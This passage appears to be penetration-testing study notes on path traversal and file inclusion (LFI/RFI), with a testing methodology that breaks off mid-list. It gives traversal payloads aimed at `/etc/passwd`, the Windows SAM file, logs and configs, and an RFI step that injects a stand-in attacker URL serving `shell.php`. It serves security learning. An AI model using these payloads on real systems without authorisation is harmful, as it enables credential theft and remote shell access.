 #### **Path Traversal**

- **What it is**: Manipulating file paths to access files outside the intended directory.
- **Impact**:
    - **Information Disclosure**: Reading files like `config.php` or `/etc/passwd`.
    - **Access Control Bypass**: Navigating outside restricted directories.

**Example Payloads**:

```plaintext
../../../../etc/passwd
..\\..\\..\\..\\windows\\system32\\config\\SAM
```

---

## 📝 **Methodology: Testing File Inclusion Vulnerabilities**

1. **Identify Input Points**:
    
    - Look for user-controlled parameters influencing file paths (e.g., `?file=` or `?template=`).
2. **Test for LFI**:
    
    - Inject payloads like `../../../../etc/passwd` and observe if the file contents are displayed.
3. **Test for RFI**:
    
    - Inject URLs like `http://malicious.com/shell.php` to see if external files are included.
4. **Test for Path Traversal**:
    
    - Use directory traversal sequences (`../` or `..\\`) to navigate outside intended directories.
5. **Verify Success**:
    
    - Check if sensitive files or errors are exposed.

---
## 📝 **Strategies for Identifying File Inclusion Vulnerabilities**

1. **Testing With Path Traversal**
    
    - Use common payloads like:
        
        plaintext
        
        Copy code
        
        `../../etc/passwd ../../../../windows/system32/drivers/etc/hosts`
        
    - Observe for:
        - Partial file content.
        - Behavioral changes.
2. **Using Common File Inclusion Payloads**
    
    - Try including files likely to exist on the server:
        - Logs: `../../var/log/apache/access.log`
        - Configs: `../../config.php`
    - Test varying path depths (`../`) to adjust for directory structures.
3. **Probing for Extensions**
    